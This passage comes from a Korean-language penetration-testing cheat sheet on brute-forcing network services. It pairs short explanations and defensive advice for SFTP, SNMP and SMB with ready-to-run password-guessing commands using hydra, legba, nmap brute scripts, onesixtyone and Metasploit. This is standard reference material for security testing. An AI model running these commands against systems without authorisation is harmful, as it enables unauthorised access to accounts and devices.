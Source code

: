 SFTP 서버에 대한 브루트 포스 공격을 감지하고 방지하기 위해 로그 분석 및 모니터링 도구를 사용할 수 있습니다. 이러한 도구는 잘못된 로그인 시도를 식별하고, 이상한 활동을 감지하여 적절한 조치를 취할 수 있도록 도와줍니다.

SFTP 서버를 보호하기 위해 방화벽을 사용할 수 있습니다. 방화벽은 외부에서의 액세스를 제한하고, 브루트 포스 공격과 같은 악성 활동을 차단하는 데 도움이 됩니다.

SFTP 서버를 안전하게 유지하기 위해 정기적인 보안 패치와 업데이트를 수행해야 합니다. 이는 알려진 취약점을 해결하고, 보안 강화를 위한 최신 기능을 제공합니다.

SFTP 서버를 해킹하는 데 성공한 경우, 중요한 파일이나 데이터가 유출될 수 있습니다. 따라서 SFTP 서버를 보호하기 위해 백업 및 복구 계획을 수립하고, 데이터의 안전한 보관을 위한 암호화 및 접근 제어를 구현해야 합니다.
```bash
legba sftp --username admin --password wordlists/passwords.txt --target localhost:22
# Try keys from a folder
legba sftp --username admin --password '@/some/path/*' --ssh-auth-mode key --target localhost:22
```
### SNMP

SNMP(Simple Network Management Protocol)은 네트워크 장치들을 관리하기 위해 사용되는 프로토콜입니다. SNMP는 네트워크 장치들의 상태 정보를 수집하고, 설정을 변경하며, 경고를 생성하는 등의 기능을 제공합니다. SNMP는 주로 시스템 관리자나 네트워크 관리자들이 네트워크 장치들을 모니터링하고 관리하기 위해 사용됩니다.

SNMP는 일반적으로 UDP(User Datagram Protocol)를 사용하여 통신하며, SNMP 에이전트와 SNMP 관리자 간의 상호작용을 위한 메시지를 정의합니다. SNMP 에이전트는 네트워크 장치에 설치되어 있으며, SNMP 관리자는 네트워크 장치들을 관리하기 위해 사용되는 소프트웨어입니다.

SNMP는 보안상의 이유로 인해 인증 및 암호화 기능을 제공합니다. SNMPv3는 인증 및 암호화를 위한 보안 기능을 제공하며, SNMPv1 및 SNMPv2c는 보안 기능을 제공하지 않습니다. 따라서 SNMPv3를 사용하여 네트워크 장치들을 보다 안전하게 관리할 수 있습니다.

SNMP는 브루트 포스 공격에 취약할 수 있습니다. 브루트 포스 공격은 모든 가능한 조합을 시도하여 암호를 찾는 공격입니다. SNMP 에이전트에 대한 브루트 포스 공격은 SNMP 커뮤니티 문자열을 추측하여 액세스 권한을 얻는 것을 목표로 합니다. 따라서 SNMP 에이전트에 대한 액세스 권한을 보호하기 위해 강력한 커뮤니티 문자열을 사용하고, SNMPv3를 사용하여 암호화 및 인증 기능을 활성화하는 것이 좋습니다.
```bash
msf> use auxiliary/scanner/snmp/snmp_login
nmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]
onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt <IP>
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com snmp
```
### SMB

SMB(Samba)은 Windows 운영 체제에서 파일 및 프린터 공유를 위해 사용되는 프로토콜입니다. SMB는 네트워크 상에서 파일 및 리소스를 공유하기 위해 사용되며, 클라이언트와 서버 간의 통신을 가능하게 합니다.

SMB는 일반적으로 TCP/IP를 기반으로 작동하며, 445번 포트를 사용하여 통신합니다. 이 프로토콜은 인증 및 권한 부여를 위한 기능을 제공하며, 파일 및 디렉토리에 대한 액세스 제어를 가능하게 합니다.

SMB는 브루트 포스 공격에 취약할 수 있습니다. 브루트 포스 공격은 다양한 암호 조합을 시도하여 암호를 추측하는 공격 방법입니다. 이를 통해 암호를 알아낼 수 있으며, 악용될 수 있습니다.

SMB 브루트 포스 공격을 방지하기 위해 강력한 암호를 사용하고, 계정 잠금 정책을 설정하는 것이 좋습니다. 또한, 네트워크 보안을 강화하고, 방화벽을 설정하여 외부에서의 액세스를 제한하는 것이 중요합니다.
```bash
nmap --script smb-brute -p 445 <IP>
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
legba smb --target share.company.com --username admin --password data/passwords.txt [--smb-workgroup <SMB_WORKGROUP>] [--smb-share <SMB_SHARE>]
```
### SMTP

SMTP (Simple Mail Transfer Protocol)은 전자 메일을 보내는 데 사용되는 표준 프로토콜입니다. SMTP 서버는 전자 메일을 수신 서버로 전송하는 역할을 합니다. SMTP는 TCP/IP 프로토콜 스택을 기반으로 하며, 25번 포트를 사용하여 통신합니다.
